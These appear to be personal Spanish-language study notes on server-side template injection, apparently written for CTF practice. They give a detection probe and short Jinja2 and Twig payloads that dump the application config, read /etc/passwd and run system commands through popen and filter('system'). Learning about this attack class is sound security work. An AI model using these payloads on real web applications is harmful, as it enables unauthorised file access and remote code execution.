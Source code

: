 
Server-Side template injection -> Cunado un template engine como jinja acepta input antes de que la función de renderizado se active, permitiendo que el atacante inyecte codigo y que este sea renderizado
## Identifying SSTI

1. Meterle carácteres usados comunmente en los template para ver si salta error : ```${{<%[%'"}}%\.``` -> carácteres mas comunes

2. Identificar el Template Engine

 <img width="1065" height="690" alt="image" src="https://github.com/user-attachments/assets/6f7c0f12-afb2-4abe-b7b8-e7f7301866a3" />


3. Salir de casa

## Explotation - Jinja2

Usado en python web frameworks como `Flask` o `Django` - nos centraremos en Flask

1. Payload para ver la configuración de la aplicación web
```jinja2
{{ config.items() }}
```
2. Payload que dumpea todas las finciones built-in 
```jinja2
{{ self.__init__.__globals__.__builtins__ }}
```
3. Si la funciones open está activa podemos hacer LFI de la siguiente forma
```jinja2
{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }}
```
4. RCE,  necesitamos la librería 'os' , si no está instalada tendremos que hacerle import desde el payload 
```jinja2
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('id').read() }}
```

## Explotation - Twig

Basado en PHP

1. Payload para que nos de info sobre el template
```twig
{{ _self }}
```
2. LFI (si usa Symfony)
```twig
{{ "/etc/passwd"|file_excerpt(1,-1) }}
```
3. RCE
```twig
{{['id']|filter('system')}}
```

si quieres hacer cat /flag.txt con burp el espacio ponlo como `\x20`
